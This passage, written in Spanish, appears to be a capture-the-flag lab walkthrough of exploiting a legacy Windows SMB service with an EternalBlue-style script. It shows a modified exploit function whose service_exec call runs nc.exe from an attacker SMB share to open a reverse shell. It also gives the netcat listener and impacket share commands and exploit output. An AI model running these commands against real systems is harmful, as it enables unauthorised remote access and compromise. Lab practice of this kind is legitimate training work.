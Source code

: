 A esto:

```python
def smb_pwn(conn, arch):
 973   │     #smbConn = conn.get_smbconnection()
 974   │     
 975   │     #print('creating file c:\\pwned.txt on the target')
 976   │     #tid2 = smbConn.connectTree('C$')
 977   │     #fid2 = smbConn.createFile(tid2, '/pwned.txt')
 978   │     #smbConn.closeFile(tid2, fid2)
 979   │     #smbConn.disconnectTree(tid2)
 980   │     
 981   │     #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
 982   │     service_exec(conn, r'cmd /c \\10.10.14.9\smbFolder\nc.exe -e cmd 10.10.14.9 443')
 983   │     # Note: there are many methods to get shell over SMB admin session
 984   │     # a simple method to get shell (but easily to be detected by AV) is
 985   │     # executing binary generated by "msfvenom -f exe-service ..."
```

> Cambiar la ip *10.10.14.9* por la que tengas como atacante.

<br/>

Una vez modificado el script, nos pondremos en escucha con netcat por el puerto que hayamos establecido en `zzz_exploit.py`, en mi caso **443**.

```bash
sudo rlwrap nc -nlvp 443
```
<br/>

Además tendremos que ponernos en escucha con **smb** para compartir el recurso de nc.exe.

> Para encontrar el recurso nc.exe de tu Kali o ParrosOS usa: `updatedb && locate nc.exe`

<br/>

Nos ponemos en escucha:

```bash
sudo impacket-smbserver smbFolder $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
<br/>

Y por último ejecutaremos el script:

```bash
python zzz_exploit.py 10.10.10.4 browser
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8602abd8
SESSION: 0xe1116838
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
```